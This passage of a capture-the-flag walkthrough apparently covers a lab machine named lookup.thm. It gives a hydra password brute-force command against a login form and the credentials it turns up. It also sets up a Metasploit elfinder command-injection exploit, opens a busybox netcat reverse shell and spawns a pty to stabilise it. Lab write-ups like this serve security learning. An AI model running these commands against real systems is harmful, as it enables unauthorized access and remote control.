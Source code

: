 ![Found Username](found_username.png)

#### Find Password

```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:F=wrong password" -V
```

![Finding Password](finding_password.png)

- **Found credentials:**  
  `username: jose`  
  `password: password123`

---

## 🚪 Exploitation

- Login to dashboard:
  ![Dashboard Access](gain_access_dashboard.png)
- Found SSH credentials:
  ![SSH Credentials](get_username_cred.png)

#### Search for Exploits

```bash
searchsploit elfinder
```

![Find Exploit](find_exploit_elfinder.png)

#### Metasploit Exploitation

```bash
use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
set RHOSTS files.lookup.thm
set LHOST <your_ip>
exploit
```

![Metasploit Exploit](metasploit_exploit.png)

- Get a shell:
  ```bash
  shell
  busybox nc <your_ip> 1111 -e bash
  ```
- Stabilize shell:
  ```bash
  python3 -c 'import pty;pty.spawn("/bin/bash")'
  export TERM=xterm-256color
  cd /tmp
  ```
